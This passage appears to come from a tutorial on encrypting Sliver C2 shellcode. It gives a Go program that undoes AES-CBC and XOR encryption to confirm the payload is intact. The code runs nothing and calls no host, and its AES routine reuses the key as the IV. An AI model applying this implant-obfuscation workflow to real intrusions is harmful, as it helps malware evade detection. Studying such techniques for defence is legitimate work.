 Now that we have encrypted shellcode, we will create a decrypter program to validate that the binary data is the same as before encryption. Copy the byte slice saved in the `sliver_payload` file to the new Go program below.

``` go
package main

import (
	"crypto/aes"
	"crypto/cipher"
	"fmt"
	"io/ioutil"
)

var xorKey string
var aesKey string

func main() {

	// Encrypted data from sliver_payload
	byteSlice := []byte{}

	// AES decryption
	aesDecrypted, _ := aesDecrypt(byteSlice, []byte(aesKey))

	// XOR decryption
	xoredData := make([]byte, len(aesDecrypted))
	for i := range aesDecrypted {
		xoredData[i] = aesDecrypted[i] ^ xorKey[i%len(xorKey)]
	}

	// Write xoredData to a binary file
	err := ioutil.WriteFile("sliver_data.bin", xoredData, 0755)
	if err != nil {
		fmt.Println("Error writing xored data to file:", err)
		return
	}

}

func pkcs5UnPadding(origData []byte) []byte {
	length := len(origData)
	unpadding := int(origData[length-1])
	return origData[:(length - unpadding)]
}

func aesDecrypt(crypted, key []byte) ([]byte, error) {
	block, err := aes.NewCipher(key)
	if err != nil {
		return nil, err
	}

	blockSize := block.BlockSize()
	blockMode := cipher.NewCBCDecrypter(block, key[:blockSize])

	originalData := make([]byte, len(crypted))
	blockMode.CryptBlocks(originalData, crypted)

	originalData = pkcs5UnPadding(originalData)
	return originalData, nil
}

```
